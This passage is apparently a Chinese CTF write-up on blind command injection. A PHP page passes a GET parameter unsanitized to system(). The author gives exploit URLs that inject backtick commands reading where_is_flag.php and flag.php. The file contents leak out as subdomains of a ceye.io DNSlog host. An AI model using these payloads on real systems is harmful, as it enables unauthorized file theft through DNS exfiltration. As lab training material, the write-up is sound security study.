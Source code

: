 ```txt
index.php
where_is_flag.php
```

index.php代码

```php
<?php 
include("where_is_flag.php");
echo "ping";
$ip =(string)$_GET['ping'];
$ip =str_replace(">","0.0",$ip);
system("ping ".$ip);
```

可以看到存在ping命令，但是测试没有回显，于是就采用dnslog的方式来查看回显。

payload

```txt
ping `cat where_is_flag.php|sed s/[[:space:]]/xx/g`.******.ceye.io
# 因为域名中不允许有空格，但是php代码中可能会含有空格，所以使用sed命令将php代码的空格替换为xx
```

最终的url

```txt
http://192.168.5.90/?ping=`cat where_is_flag.php|sed s/[[:space:]]/xx/g`.******.ceye.io
```

在dns query中查看

![t01a51d16796d1e3a27.jpg](https://whitecell.io/upload/attach/201810/151_XZ9CXWJ6KPYWJ3B.jpg "t01a51d16796d1e3a27.jpg")

可以看到文件的内容是

```txt
<?php $flag="dgfsdunsadkjgdgdfhdfhfgdhsadf/flag.php";?>
```

由此得知flag.php的位置，继续打印flag.php的内容

获取flag的url

```txt
http://192.168.5.90/?ping=`cat dgfsdunsadkjgdgdfhdfhfgdhsadf/flag.php|sed s/[[:space:]]/xx/g`.******.ceye.io
```

![t01c4d21b98879d3429.jpg](https://whitecell.io/upload/attach/201810/151_U93QDQR7647KA9P.jpg "t01c4d21b98879d3429.jpg")

得到flag。

---

## 后记

从开始学打ctf到现在见了挺多的代码执行和命令执行，这次算比较完整的总结了一下，感觉对于我这种萌新还是挺友好的。欢迎师傅们指出不对的地方。


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128